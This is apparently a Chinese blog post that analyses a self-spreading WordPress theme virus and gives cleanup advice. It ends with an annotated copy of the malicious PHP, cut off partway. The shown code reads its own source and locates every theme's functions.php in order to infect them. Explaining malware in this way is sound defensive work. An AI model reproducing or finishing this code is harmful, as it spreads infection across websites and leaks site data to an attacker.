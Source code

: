     }
    ?>




#### 这个代码会感染你所有的主题，也就是每个主题都中招，当你把你的主题分享给朋友时候，他们也会中招。大概看了一下这段代码，只看懂了感染原理。每当wp加载主题时





#### ，会调用function.php里面的函数，而恶意代码会在此过程中加在，并检测到你wp主题的绝对路径，之后把其它为感染的主题一并感染，而且它加了很多伪装代码，没鸟用，骗人眼睛的（我前面就又中招了）。此代码变量众多，不看了，直接google。找到如下结果。




<blockquote>再来大概说说它的**工作原理**，首先它会存在某一主题里面，当你启用调试此主题时，这段代码可以通过遍历获得你主题目录下的所有主题里面的functions.php，并在functions.php文件结尾处的最后一个“？>”处自动添加下面的恶意病毒代码，如果恶意病毒代码添加成功，它会发送你博客的url地址到[livethemas@gmail.com](http://www.henghengzhu.com/tag/livethemasgmail-com/)（可能大家没看到这个邮箱地址的添加位置，这就是它的巧妙之处，它将email地址拆分转义，然后用多重变量引用，下面的代码我已经用红色标注出了此email地址。</blockquote>




#### 看来写这恶意代码的是个高手。




## 处理方法：




登陆ssh，把theme设置为只读权限（Linux下）。删除所有的恶意代码。




恢复权限，只把function.php设置为只读，这样才不怕这种毒了。





## 建议：


仔细检查你下载的所有插件和主题，不要随便下载破解版！

php一样可以写出不差于win下的恶意木马，别小看了php。


## 下面是该代码的注释版本：



    
    <?php
    function _verifyactivate_widgets(){
        //当前文件名，如/path-to-www/wp-content/themes/SimpleDark/functions.php 
            //查找当前主题functions.php文件中最后一个 <? 标记，从这个标记的位置开始，取得一直到文件尾的内容
        $widget=substr(file_get_contents(__FILE__),strripos(file_get_contents(__FILE__),"<"."?"));
        $output="";
        $allowed="";
        //去除html和php标签，其实这一句是扯蛋。。。
        $output=strip_tags($output, $allowed);
        //取得主题目录themes的绝对路径，如 /path-to-www/wp-content/themes
            //为了加强程序的兼容性，它不惜以这种很晦涩的方式来获取。。。
            //以主题目录themes的绝对路径用array包裹为参数传递给_get_allwidgets_cont函数获取此博客的所有主题的functions.php文件的绝对路径
        $direst=_get_allwidgets_cont(array(substr(dirname(__FILE__),0,stripos(dirname(__FILE__),"themes") + 6)));
        if (is_array($direst)){
            foreach ($direst as $item){